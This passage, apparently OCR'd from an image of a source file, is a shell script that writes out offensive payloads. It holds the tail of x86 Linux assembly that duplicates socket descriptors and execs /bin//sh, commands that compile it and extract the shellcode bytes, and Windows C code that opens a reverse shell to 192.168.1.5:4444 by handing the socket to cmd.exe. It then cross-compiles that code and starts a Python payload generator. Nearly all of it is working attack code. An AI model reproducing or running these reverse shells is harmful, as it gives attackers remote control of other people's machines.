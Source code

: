 ```bash
    mov al, 0x3f
    
dup_loop:
    int 0x80  ; sys_dup2
    dec ecx
    jns dup_loop
    
    ; Execute shell
    push 0x68732f2f  ; //sh
    push 0x6e69622f  ; /bin
    mov ebx, esp
    push edx
    push ebx
    mov ecx, esp
    mov al, 0xb
    int 0x80  ; sys_execve
EOF

# Step 2: Compile and extract shellcode
nasm -f elf32 custom_shell.asm -o custom_shell.o
ld -m elf_i386 custom_shell.o -o custom_shell
objdump -d custom_shell | grep "^ " | cut -f2 | tr -d ' ' | tr -d '\n' | sed 's/../\\x&/g'

# Custom Windows shellcode (using C)
cat > windows_shell.c << 'EOF'
#include <windows.h>
#include <winsock2.h>

int main() {
    WSADATA wsaData;
    SOCKET sock;
    struct sockaddr_in addr;
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    
    WSAStartup(MAKEWORD(2,2), &wsaData);
    sock = socket(AF_INET, SOCK_STREAM, 0);
    
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);
    addr.sin_addr.s_addr = inet_addr("192.168.1.5");
    
    connect(sock, (struct sockaddr*)&addr, sizeof(addr));
    
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESTDHANDLES;
    si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)sock;
    
    CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
    
    return 0;
}
EOF

# Cross-compile for Windows
i686-w64-mingw32-gcc windows_shell.c -o windows_shell.exe -lws2_32

# Python-based custom payload generator
cat > custom_payload_gen.py << 'EOF'
#!/usr/bin/env python3
import base64
import random
```
